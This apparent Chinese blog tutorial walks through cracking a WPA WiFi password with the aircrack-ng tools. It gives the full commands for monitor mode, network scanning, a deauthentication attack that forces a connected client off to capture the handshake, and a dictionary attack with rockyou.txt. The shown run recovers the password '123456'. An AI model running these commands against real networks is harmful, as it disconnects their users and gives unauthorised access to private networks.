




title: WIFI暴力破解
author: John Jue
date: 2023-12-10 20:25:47
tags:
---
<b>最重要的，得先有一张无线网卡</b>

可以看到这张网卡名字为wlan0

首先解压kali自带的爆破字典`/usr/share/wordlist/`

先开启监听`airmon-ng start wlan0`

开始扫描wifi，`airodump-ng wlan0`

<li>BSSID：路由器的MAC地址
<li>PWR：信号值，绝对值越低，说明信号越强
<li>CH：当前路由器使用的信道
  
然后找到自己要爆破的wifi，这里选择 nova6

开始监听该wifi：

`airodump-ng --bssid 5A:2D:6C:3A:76:16 -c 8 -w nova6 wlan0
`

--bssid 后输入wifi的bssid

-c 后输入wifi 的信道值ch

确认有无设备连接，另开一个终端，然后进行断网抓取握手包
`aireplay-ng -0 90 -a  5A:2D:6C:3A:76:16 -c 14:AC:60:B4:48:87 wlan0`
-0：制定攻击次数。

-a：路由器的bssid值

-c：目标mac地址

这里就成功抓到握手包了
进行爆破
`aircrack-ng -a2 -b 5A:2D:6C:3A:76:16 -w rockyou.txt nova6-02.cap`

爆破成功，密码为123456

